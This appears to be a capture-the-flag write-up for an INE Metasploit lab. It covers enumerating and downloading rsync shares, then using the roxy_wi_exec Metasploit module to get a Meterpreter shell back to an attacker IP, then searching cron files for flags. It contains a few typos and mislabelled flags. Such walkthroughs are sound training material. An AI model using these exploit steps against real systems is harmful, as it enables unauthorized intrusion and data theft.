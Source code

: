 ## Host & Network Penetration Testing: The Metasploit Framework CTF 2


### Flag 1: Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting.

This task is quite straightforward. We need to launch Metasploit, Nmap tarte1.ine.local, and after verifying that the rsync port 873 is open, we attempt to connect to the service using the command:
```
rsync rsync://target1.ine.local/
```
to reveal the first flag.


### Flag 2: The files on the RSYNC server hold valuable information. Explore the contents to find the flag.

During the previous task, we discovered the flag associated with a rsync module named:
```
backupwscohen
```
We initiate a file download from the target folder using the rsync command.
```
rsync -av target1.ine.local::backupwscohen/
```
one of these files contains the flag.
```
cat pii_data.xlsx
```
### Flag 3: Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local.

Upon exploring the target page using Firefox, we observe that the web server executes the command “Roxy-Wi”. This vulnerability can be easily identified using the Metasploit module:
```
exploit/linux/http/roxy_wi_exec
```
Configuring the module is straightforward.
```
SET SRVHOST [attacker_ip]
SET LHOST [attacker_ip]
SET RHOSTS [target_it]
run
```
Upon establishing a Meterpreter session and navigating to the root directory, we discovered the third flag.

### Flag 4: Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag.

Navigating to /etc/cron.d we find the third flag in the cronjob:
```
www-data-cron
```
